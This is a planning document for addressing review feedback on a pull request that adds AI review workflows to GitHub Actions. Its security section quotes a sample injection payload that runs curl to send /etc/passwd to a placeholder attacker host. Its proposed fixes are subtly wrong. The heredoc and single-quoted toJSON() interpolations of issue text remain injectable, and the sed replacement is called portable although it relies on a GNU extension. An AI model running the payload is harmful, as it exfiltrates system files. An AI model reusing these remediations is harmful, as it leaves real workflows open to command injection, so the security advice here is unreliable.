

# PR #60 Implementation Plan: AI Workflow Review Response

**Version**: 1.0
**Date**: 2025-12-18
**Status**: Draft - Awaiting Specialist Approval
**Priority**: **CRITICAL** - Blocks agent consolidation work

---

## Executive Summary

PR #60 introduces AI-powered GitHub Actions workflows using Copilot CLI. This is a **large-scale PR** with:

- **74 files changed** (+12,877 additions, -453 deletions)
- **178+ review comments** (90+ review comments, 88+ issue comments)
- **5 bot reviewers** with varying signal quality
- **Security vulnerabilities identified** (code injection)
- **Blocking downstream work** (agent consolidation implementation)

### Critical Findings

| Category | Count | Priority |
|----------|-------|----------|
| **Security vulnerabilities** (code injection) | At least 2 | **P0 - CRITICAL** |
| **Logic bugs** (fallback parsing) | At least 1 | **P1 - Major** |
| **Portability issues** (grep -P on macOS) | At least 1 | **P1 - Major** |
| **Race conditions** (comment editing) | At least 1 | **P1 - Major** |
| **Other review feedback** | 170+ | **P2-P3** (requires triage) |

---

## Problem Statement

This PR implements non-deterministic AI quality gates for GitHub Actions. While the concept is valuable, the implementation has:

1. **Security vulnerabilities**: Unsanitized GitHub context variables in bash scripts
2. **Logic bugs**: Fallback parsing prevented by premature default values
3. **Portability issues**: GNU-specific regex patterns not portable to macOS
4. **Race conditions**: Comment editing using `--edit-last` instead of specific IDs

Additionally, the **sheer volume of comments** (178+) requires systematic triage, analysis, and response.

---

## Approach Strategy

### Phase 1: Triage & Prioritization

**Objective**: Systematically categorize all 178+ comments by priority and type.

**Method**:
1. Extract all comment IDs, authors, files, and line numbers
2. Apply reviewer signal quality heuristics (from pr-comment-responder-skills memory)
3. Classify each comment:
   - **P0 (Critical)**: Security vulnerabilities, blocking bugs
   - **P1 (Major)**: Logic bugs, portability issues, race conditions
   - **P2 (Minor)**: Style suggestions, optimizations
   - **P3 (Informational)**: Summaries, duplicates, bot noise
4. Group by file and logical area (but triage independently per Skill-PR-002)

**Reviewer Priority** (per skills memory):
- **P0**: github-advanced-security[bot] (security issues are always CRITICAL)
- **P1**: gemini-code-assist[bot] (code quality, logic bugs)
- **P2**: Copilot (~44% signal, review carefully)
- **P3**: coderabbitai[bot] (~50% signal, check for duplicates)

### Phase 2: Security Analysis (BLOCKING)

**Objective**: Address all security vulnerabilities before any other work.

**Security Agent Tasks**:
1. Analyze code injection vulnerabilities in:
   - `.github/workflows/ai-issue-triage.yml` (lines 73-74)
   - Any other workflow files using `${{ github.event.* }}` in bash
2. Recommend sanitization approach (e.g., save to file, validate, then use)
3. Review all bash scripts for injection risks
4. Verify no secrets exposure
5. Assess GitHub Actions permissions (principle of least privilege)

**Outputs**:
- `.agents/pr-comments/PR-60/security-review.md`
- List of required security fixes with specific remediation steps

### Phase 3: Architecture Review

**Objective**: Validate the design of AI review action and workflows.

**Architect Agent Tasks**:
1. Review composite action design (`.github/actions/ai-review/action.yml`)
2. Assess bash script modularization (`.github/scripts/ai-review-common.sh`)
3. Evaluate prompt template strategy (`.github/prompts/*.md`)
4. Validate workflow orchestration patterns
5. Check for separation of concerns
6. Identify architectural debt or improvement opportunities

**Outputs**:
- `.agents/pr-comments/PR-60/architect-review.md`
- Recommendations for structural improvements (if any)

### Phase 4: QA Analysis

**Objective**: Ensure test coverage and regression prevention.

**QA Agent Tasks**:
1. Review test coverage for:
   - `.github/scripts/AIReviewCommon.Tests.ps1` (594 lines)
   - Bash script functions (ai-review-common.sh)
2. Identify missing test cases:
   - Security: Code injection prevention tests
   - Logic: grep fallback parsing tests
   - Portability: sed vs grep -P tests
   - Race conditions: Comment editing idempotency tests
3. Assess regression test strategy
4. Validate test isolation and mocking

**Outputs**:
- `.agents/pr-comments/PR-60/qa-review.md`
- List of required test additions

### Phase 5: Strategic Review

**Objective**: Prioritize fixes and unblock downstream work.

**High-Level-Advisor Agent Tasks**:
1. Assess criticality of blocking agent consolidation work
2. Determine if partial merge is feasible (security fixes only)
3. Prioritize P0 vs P1 vs P2 fixes
4. Recommend parallel work strategy
5. Estimate effort and timeline
6. Identify acceptable technical debt (if any)

**Outputs**:
- `.agents/pr-comments/PR-60/advisor-review.md`
- Priority recommendations and sequencing

---

## Detailed Findings

### Security: Code Injection Vulnerabilities

**Issue**: Unsanitized GitHub context variables used in bash commands.

**Affected Files**:
1. `.github/workflows/ai-issue-triage.yml` (lines 73-74)

**Evidence** (from github-advanced-security[bot]):
```yaml
# Line 73
ISSUE_TITLE="${{ github.event.issue.title }}"

# Line 74
ISSUE_BODY="${{ github.event.issue.body }}"
```

**Vulnerability**: If an attacker creates an issue with title/body containing:
```
"; curl attacker.com/exfiltrate?data=$(cat /etc/passwd); echo "
```

This would execute arbitrary commands in the GitHub Actions runner.

**Remediation**:
1. **Immediate**: Save variables to files instead of direct interpolation
```yaml
- name: Save Issue Context
  run: |
    cat > /tmp/issue-title.txt << 'TITLE_EOF'
    ${{ github.event.issue.title }}
    TITLE_EOF

    cat > /tmp/issue-body.txt << 'BODY_EOF'
    ${{ github.event.issue.body }}
    BODY_EOF

- name: Process Issue
  run: |
    ISSUE_TITLE=$(cat /tmp/issue-title.txt)
    ISSUE_BODY=$(cat /tmp/issue-body.txt)
    # Now safe to use
```

2. **Best Practice**: Use `toJSON()` to escape:
```yaml
ISSUE_DATA='${{ toJSON(github.event.issue) }}'
```

3. **Validation**: Add input validation before use

**Test Requirements**:
- Add test case with malicious title/body
- Verify no command execution
- Verify safe variable handling

### Logic Bug: grep Fallback Parsing

**Issue**: `grep -P ... || echo "WARN"` prevents fallback parsing logic from executing.

**Affected File**: `.github/actions/ai-review/action.yml` (line 307)

**Evidence** (from gemini-code-assist[bot]):
```bash
VERDICT=$(echo "$OUTPUT" | grep -oP '(?<=VERDICT:\s*)[A-Z_]+' | head -1 || echo "WARN")
```

**Problem**: The `|| echo "WARN"` causes `VERDICT` to always have a value (either match or "WARN"). This prevents the subsequent fallback parsing block (lines 308-319) from ever executing.

**Remediation**:
```bash
# Remove || echo "WARN" to allow fallback
VERDICT=$(echo "$OUTPUT" | sed -n 's/.*VERDICT:[[:space:]]*\([A-Z_]\+\).*/\1/p' | head -1)

# Fallback parsing (lines 308-319) can now trigger if VERDICT is empty
if [ -z "$VERDICT" ]; then
  # Fallback logic here
fi
```

**Why sed instead of grep -P**:
- Portable to macOS (grep -P is GNU extension)
- Same functionality
- No external dependencies

**Test Requirements**:
- Test case: Output without VERDICT line → should use fallback
- Test case: Output with VERDICT → should extract correctly
- Test case: malformed VERDICT → should use fallback

### Race Condition: Comment Editing

**Issue**: Using `--edit-last` can edit the wrong comment if another comment is posted between finding the existing comment ID and editing it.

**Affected File**: `.github/scripts/ai-review-common.sh` (lines 59-61)

**Evidence** (from gemini-code-assist[bot]):
```bash
# Current code (WRONG)
echo "$comment_body" | gh pr comment "$pr_number" --edit-last --body-file - 2>/dev/null || \
echo "$comment_body" | gh pr comment "$pr_number" --body-file -
```

**Problem**:
1. Find `existing_comment_id` (line 56)
2. Time passes (another comment is posted)
3. `--edit-last` edits the NEW comment, not the one we found

**Remediation**:
```bash
# Use the specific comment ID we found
echo "$comment_body" | gh pr comment --edit "$existing_comment_id" --body-file -
```

**Why**:
- Idempotent: Always edits the correct comment
- No race condition: Uses the specific ID from search
- No fallback needed: Either succeeds or fails clearly

**Test Requirements**:
- Test case: Multiple comments with same marker
- Test case: Comment posted between find and edit
- Verify correct comment is always edited

---

## Implementation Sequencing

### Critical Path (MUST complete before other work)



### Parallel Opportunities

After security fixes committed:

**Group A** (Parallel):
- Logic bug fix (grep fallback)
- Portability fix (sed replacement)

**Group B** (Parallel):
- Race condition fix (comment editing)
- Test additions for A & B

**Group C** (Parallel):
- P2 review feedback
- Documentation updates
- Code style improvements

---

## File-by-File Analysis

### Critical Files Requiring Changes

| File | Lines | Issues | Priority |
|------|-------|--------|----------|
| `.github/workflows/ai-issue-triage.yml` | 250 | Code injection (2) | **P0** |
| `.github/actions/ai-review/action.yml` | 342 | Logic bug (1), portability (1) | **P1** |
| `.github/scripts/ai-review-common.sh` | 237 | Race condition (1) | **P1** |
| `.github/workflows/ai-pr-quality-gate.yml` | 450 | Review pending | P2 |
| `.github/workflows/ai-session-protocol.yml` | 340 | Review pending | P2 |
| `.github/workflows/ai-spec-validation.yml` | 350 | Review pending | P2 |

### Test Files Requiring Updates

| File | Purpose | New Tests Required |
|------|---------|-------------------|
| `.github/scripts/AIReviewCommon.Tests.ps1` | PowerShell module tests | Code injection prevention, sed portability |
| `(new) .github/scripts/ai-review-common.Tests.sh` | Bash script tests | Comment editing race condition, verdict parsing |

---

## Agent Assignment Recommendations

### Security Fixes (P0)

**Agent**: implementer
**Scope**: Code injection sanitization
**Files**: `ai-issue-triage.yml`, any other workflows
**Estimate**: 1-2 hours
**Blocking**: Yes (must complete before other work)

**Task Breakdown**:
1. Audit ALL workflows for `${{ github.event.* }}` usage in bash
2. Replace with heredoc file writes
3. Add input validation where appropriate
4. Update tests to cover injection scenarios

### Logic & Portability Fixes (P1)

**Agent**: implementer
**Scope**: grep fallback, sed replacement
**Files**: `ai-review/action.yml`
**Estimate**: 30 minutes
**Blocking**: No (can parallelize with security tests)

**Task Breakdown**:
1. Remove `|| echo "WARN"` from VERDICT extraction
2. Replace `grep -P` with `sed` for portability
3. Verify fallback logic now executes
4. Add test cases for fallback scenarios

### Race Condition Fix (P1)

**Agent**: implementer
**Scope**: Comment editing idempotency
**Files**: `ai-review-common.sh`
**Estimate**: 15 minutes
**Blocking**: No (can parallelize)

**Task Breakdown**:
1. Replace `--edit-last` with `--edit <id>`
2. Remove fallback to create new comment
3. Add error handling for edit failures
4. Add test case for race condition

### Test Coverage (P1)

**Agent**: qa + implementer
**Scope**: Add missing test cases
**Files**: `AIReviewCommon.Tests.ps1`, new bash tests
**Estimate**: 2-3 hours
**Blocking**: No (but REQUIRED before merge per Skill-QA-001)

**Task Breakdown**:
1. Security tests (code injection scenarios)
2. Logic tests (verdict parsing, fallback)
3. Portability tests (sed vs grep -P)
4. Race condition tests (comment editing)
5. Run full test suite
6. Verify 100% coverage of critical paths

### Remaining Review Feedback (P2-P3)

**Agent**: orchestrator (delegates per comment type)
**Scope**: Triage and address 170+ remaining comments
**Files**: Various
**Estimate**: 4-6 hours
**Blocking**: No (but should complete for thoroughness)

**Approach**:
1. Extract all comments to structured format
2. Group by file and type
3. Deduplicate (coderabbitai often duplicates)
4. For each unique comment:
   - Quick Fix path: Direct to implementer
   - Standard path: orchestrator → analyst → planner → implementer
   - Strategic path: high-level-advisor decides

---

## Success Criteria

### Phase-Specific Criteria

**Phase 1 - Triage**:
- [ ] All 178+ comments extracted and categorized
- [ ] Priority assigned to each comment
- [ ] Reviewer signal quality applied
- [ ] Duplicates identified

**Phase 2 - Security**:
- [ ] All code injection vulnerabilities fixed
- [ ] Security tests added and passing
- [ ] Security review approved
- [ ] No new vulnerabilities introduced

**Phase 3 - Architecture**:
- [ ] Design validated or concerns documented
- [ ] Structural improvements identified (if any)
- [ ] Architect review approved

**Phase 4 - QA**:
- [ ] Test coverage assessed
- [ ] Missing tests identified
- [ ] Regression prevention strategy documented
- [ ] QA review approved

**Phase 5 - Strategic**:
- [ ] Priorities confirmed
- [ ] Parallel work identified
- [ ] Effort estimated
- [ ] Advisor review approved

**Phase 6 - Implementation**:
- [ ] P0 fixes implemented and tested
- [ ] P1 fixes implemented and tested
- [ ] P2-P3 fixes triaged and addressed
- [ ] All tests passing
- [ ] Code reviewed

**Phase 7 - Verification**:
- [ ] All 178+ comments addressed
- [ ] Each comment replied to with commit SHA
- [ ] PR description updated
- [ ] CI passing
- [ ] Agent consolidation work unblocked

---

## Risk Assessment

| Risk | Likelihood | Impact | Mitigation |
|------|------------|--------|------------|
| **Additional security issues found** | Medium | Critical | Security agent reviews ALL workflows, not just identified ones |
| **Test failures after fixes** | Medium | Major | Test after each fix; QA agent validates coverage |
| **Scope creep (178+ comments)** | High | Major | Strict triage; defer P3 to follow-up if needed |
| **Parallel work conflicts** | Low | Medium | Clear file ownership; commit frequently |
| **Blocking other PRs** | High | High | Prioritize P0; partial merge if feasible |
| **CI failures** | Medium | Medium | Run tests locally before commit; fix immediately |

---

## Dependencies

### External

- GitHub Copilot CLI (npm package `@github/copilot`)
- `BOT_PAT` secret (with repo + Copilot access)
- PowerShell 7+ (for test runner)
- Bash (for scripts)

### Internal

- Agent consolidation work (blocked BY this PR, not blocking it)
- Session protocol workflow (may conflict)
- Pester test infrastructure (for PowerShell tests)

---

## Timeline Estimate

| Phase | Effort | Can Parallelize |
|-------|--------|-----------------|
| Triage (178+ comments) | 2-3 hours | No |
| Security review | 1 hour | No (blocking) |
| Security fixes | 1-2 hours | No (blocking) |
| Architecture review | 1 hour | Yes (after security) |
| QA review | 1 hour | Yes (after security) |
| Strategic review | 30 min | Yes (after security) |
| Logic/portability fixes | 30 min | Yes |
| Race condition fix | 15 min | Yes |
| Test additions | 2-3 hours | Yes |
| P2-P3 fixes | 4-6 hours | Yes (partial) |
| Verification & cleanup | 1 hour | No |

**Total Sequential**: ~6-8 hours
**Total with Parallelization**: ~10-14 hours (wall clock)

**Critical Path**: Triage → Security Review → Security Fixes → (Everything else in parallel)

---

## Next Steps

1. **Route this plan to specialist agents for approval**:
   - security agent: Review security analysis and remediation
   - architect agent: Review design and file structure
   - qa agent: Review test strategy and coverage
   - high-level-advisor agent: Review priorities and sequencing

2. **After approval, generate detailed tasks** (task-generator agent):
   - Atomic, estimable, testable tasks
   - Clear acceptance criteria
   - Dependencies documented
   - File paths and line numbers specified

3. **Identify parallel work** (from approved plan):
   - Group tasks by file ownership
   - Identify blocking dependencies
   - Spawn implementer agents for parallel groups

4. **Execute implementation**:
   - Security fixes first (blocking)
   - Logic/portability + race condition (parallel)
   - Tests (parallel with fixes)
   - P2-P3 (parallel, lower priority)

5. **Verify and close**:
   - All comments addressed
   - All tests passing
   - PR updated
   - Agent consolidation unblocked

---

## Questions for Specialist Agents

### Security Agent

1. Are there other code injection vectors besides `github.event.issue.{title,body}`?
2. Should we use `toJSON()` or heredoc file writes?
3. Are workflow permissions minimal (least privilege)?
4. Any secrets exposure risks?

### Architect Agent

1. Is the composite action pattern appropriate here?
2. Should bash scripts be PowerShell for consistency?
3. Is prompt template strategy extensible?
4. Any architectural debt concerns?

### QA Agent

1. Is test coverage adequate for critical paths?
2. Should we add integration tests (full workflow execution)?
3. Are test cases covering edge cases (malformed input, timeouts)?
4. Regression prevention strategy sufficient?

### High-Level-Advisor Agent

1. Can we partially merge (security only) to unblock consolidation?
2. Should P2-P3 fixes be deferred to follow-up PR?
3. Is effort estimate reasonable?
4. Any showstoppers for approval?

---

**End of Implementation Plan**
